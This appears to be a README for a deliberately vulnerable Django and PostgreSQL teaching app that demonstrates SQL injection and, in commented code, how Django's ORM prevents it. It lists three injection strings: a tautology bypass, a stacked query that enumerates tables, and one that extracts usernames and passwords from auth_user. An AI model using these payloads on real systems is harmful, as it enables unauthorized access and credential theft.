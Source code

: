 This is an intentionally vulnerable Django application to be used for demonstrating SQL Injection attacks against a Postgres DB. There is also commented code inside the view file showing which shows how the ORM built into Django is able to prevent the SQL injection attacks used in the vulnerable version. 

#Vulnerable Database

Test sql injection statements to use against the vulnerable database are:
  
  ' or 1=1-- - 
  
  '; SELECT '1' as part_id,'2' as description,'3' as name,'4' as price, table_name as heavy_use  FROM information_schema.tables  WHERE table_schema='public' AND table_type='BASE TABLE' -- - 
  
  '; SELECT '1' as part_id,'2' as description,'3' as name, username as price, password as heavy_use  FROM auth_user  -- - 
  
  Video demonstrating exploit can be found at https://youtu.be/hXX6S-hVQQY
  
  
